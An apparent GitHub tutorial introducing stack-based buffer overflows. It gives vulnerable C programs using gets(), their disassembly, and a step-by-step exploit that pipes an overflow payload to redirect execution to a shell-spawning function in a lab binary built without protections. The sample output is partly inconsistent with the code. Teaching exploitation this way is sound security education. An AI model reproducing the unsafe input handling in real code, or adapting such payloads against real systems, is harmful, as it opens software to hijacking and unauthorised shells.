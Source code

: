 
<h3> Intro to Stack Smashing : Buffer Overflow</h3>
<hr>
</br>
<b> Ques : What is Buffer and what is buffer overflow ? </b> 
</br> 
<b> Ans &nbsp; -> Buffer </b>: Simple a temporary variable used to store data.</br>
<b>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; -> Buffer Overflow</b>: Occurs when the data written to a buffer is larger than the size of the buffer itself & there are insufficient checks , which further leads to overflow and over-writing to adjacent memory locations.</br>
</br> 
 &nbsp; &nbsp; &nbsp; Example Code : 
</br> 

```bash
user@PC-Name:~# cat vulnerableCode.c
 
#include<stdio.h>
#include<stdlib.h>

int main( int argc,  char *argv[]){
  char ans[10];
  gets(ans);
  puts(ans);

}

user@PC-Name:~# gcc -ggdb vulnerableCode.c -o vulnerableCode -m32
user@PC-Name:~# gdb vulnerableCode
> disass main
Dump of assembler code for function main:
   0x0804844d <+0>:   push   ebp
   0x0804844e <+1>:   mov    ebp,esp
   0x08048450 <+3>:   and    esp,0xfffffff0
   0x08048453 <+6>:   sub    esp,0x20
   0x08048456 <+9>:   lea    eax,[esp+0x16]
   0x0804845a <+13>:  mov    DWORD PTR [esp],eax
   0x0804845d <+16>:  call   0x8048310 <gets@plt>
   0x08048462 <+21>:  lea    eax,[esp+0x16]
   0x08048466 <+25>:  mov    DWORD PTR [esp],eax
   0x08048469 <+28>:  call   0x8048320 <puts@plt>
   0x0804846e <+33>:  leave  
   0x0804846f <+34>:  ret    
End of assembler dump.
```

</br> 
&nbsp; -> The way the stack , the registers and our buffer is rendered in memory is : <img src="./stackLayout.png">.
</br> 
&nbsp; -> Now since we know that the stack grows from high memory to low memory and if we somehow are able to <b>over-write the return address with the address of our shellcode or any function we want</b>, then as soon as the function returns the control by popping the `RET` address from stack and jumpoing to it we wil achieve code execution.
</br> 
&nbsp; -> Example : 
</br> 

```bash
user@PC-Name:~# cat canYouExecuteMeCode.c 
#include<stdio.h>
#include<stdlib.h>

char ans[10];

void dangerousFunction()  {
  system("/bin/bash");
}

void getInput() {
  gets(ans);
  puts("String is : ");
  puts(ans);
}

int main( int argc,  char *argv[]){
  getInput();
}

# goal is to execute the function dangerousFunction as it would give us shell on the machine.

# For demo purposes  : Disable ASLR & compile with no stack canary + set stack as executable
user@PC-Name:~# gcc -ggdb canYouExecuteMeCode.c -o canYouExecuteMeCode -m32 -fno-stack-protector -z execstack
> disass dangerousFunction 
Dump of assembler code for function dangerousFunction:
  `0x0804847d` <+0>: push   ebp
   0x0804847e <+1>:  mov    ebp,esp
   0x08048480 <+3>:  sub    esp,0x18
   0x08048483 <+6>:  mov    DWORD PTR [esp],0x8048570
   0x0804848a <+13>: call   0x8048340 <puts@plt>
   0x0804848f <+18>: mov    DWORD PTR [esp],0x804857d
   0x08048496 <+25>: call   0x8048350 <system@plt>
   0x0804849b <+30>: leave  
   0x0804849c <+31>: ret    
End of assembler dump.

#If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` then this function would automatically be executed.

```

</br> 
<ul>
<li type=1>If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` i.e address of dangerousFunction(which gives us shell)then this function would automatically be executed.</li>
<li type=1>Now let's recollect all what we know -:</li>
&nbsp;-> layout of the stack and the fact that the buffer size of the input in 12 bytes</br>
&nbsp;-> The code running on the machine is 32-bit which means bufferSize + 8bytes(bcoz of EBP and RET address pushed in stack) + sizeof(variables declared on stack) needs to be junked and address which we want EIP to point to should be passed next.</br>
&nbsp;-> The code running on the machine is little endian (must be kept in mind while passing address)</br>
&nbsp;-> The address of dangerousFunction i.e 0x0804847d.
<li type=1>Let us create our payload now</li>

```bash
# In our case we needed 24bytes after which we can inject our actual payload.
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08'
# Note the actual address passed is in reverse order (thanks to little endian)
```

<li type=1>Let's hack it..</li>

```bash
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08' | ./canYouExecuteMeCode
String is at : 0xffffd724
String is at : 0xffffd724
AAAAAAAAAAAAAAAAAAAAAAAA}�
`GIVING SHELL`
`Illegal instruction (core dumped)` 
`user@PC-Name:~# `

```
<li type=1>Shell is up.</li>
<li type=1>In this example we had a `dangerousFunction()` in the code, but it will never be there in real world</li>
<li type=1>IIn the next Example we will see how we can inject our custom<a href="./shellcode.md" target="_blank"> shellcode </a> and expoit buffer overflow to get shell.</li>
</ul>
</br> 

